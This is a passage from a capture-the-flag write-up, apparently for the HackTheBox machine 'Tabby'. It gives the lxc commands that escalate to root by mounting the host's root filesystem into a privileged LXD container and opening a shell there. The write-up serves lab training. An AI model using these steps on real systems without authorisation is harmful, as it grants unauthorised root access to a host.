 The next step is to import the image using the `lxc` command, It's important to do this from the user's home folder:

```bash
export PATH=$PATH:/snap/bin  	# Needed becasue /snap/bin is not in ash's PATH
lxc image import ./alpine-v3.19-x86_64-20231222_0748.tar.gz --alias myimage
```


![import-22.5](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Tabby/img/import-22.5.png)


Then we need to run `lxd init` as the above output suggested, and select all the default options. 


After which we can run our image with the `security.privileged` flag set to true, which will grant the current user unconditioned root access to it:


```bash
lxc init myimage mycontainer -c security.privileged=true 
```

![create-container-23](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Tabby/img/create-container-23.png)


The next step is to mount the root folder of the container, under `/mnt/root`:

```bash
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true 
```

![mount-24](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Tabby/img/mount-24.png)


Finally, we can start the container and use the `exec` sub-command of `lxc` to spwan a shell from it:

```bash
lxc start mycontainer
lxc exec mycontainer /bin/bash
```
